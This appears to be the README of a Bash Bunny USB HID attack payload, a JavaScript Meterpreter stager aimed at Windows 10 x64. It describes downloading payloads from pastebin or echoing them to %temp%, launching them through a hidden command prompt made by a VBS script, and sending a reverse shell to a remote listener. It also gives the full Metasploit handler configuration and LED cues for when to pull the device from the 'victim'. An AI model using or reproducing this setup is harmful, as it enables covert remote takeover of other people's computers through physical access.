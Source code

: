 JavaScript Meterpreter Stager Win x86_64

Author: subinacls
Version: Version 0.1
Target: Windows 10 x64

Description
  Tested successful on Win10
  Modified from original posted code:
    https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
  USB HID Attck that attempts HTTP download of two (2) additional payloads.
  These files coinsist of:
    BB-Meterpreter-Winx64.js -> Actual bytecode of Windows/x64/meterpreter/reverse_tcp
    inv.vbs -> creates hidden command terminal to execute commands
  Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic

  if inet connection:
    Attempts HTTPS connection to pastebin
      Grabs both payloads and saves to %temp%
  else:
    Opens a cmd prompt, under current users context
      Echo contents to two files:
        BB-Meterpreter_winx64.js
        inv.vbs
  Executes hidden cmdshell via inv.vbs, launching payload
  Sends Reverse shell to remote listener
  shutdown 0

Configuration

  Listener:
    use exploit/multi/handler
    # use for x64
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    # use for x86
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 443
    set EnableUnicodeEncoding true
    set EnableStageEncoding true
    set ExitOnSession false
    exploit -j
  BashBunny:
    Have single file payload on your BB

STATUS

LED	  =>  Status/PHASE
Green	=>  Power/EXECUTING
Red	  =>  Stage1/EXECUTING
Blue  =>  Stage2/SHUTDOWN
OFF   =>  Remove Device from victim
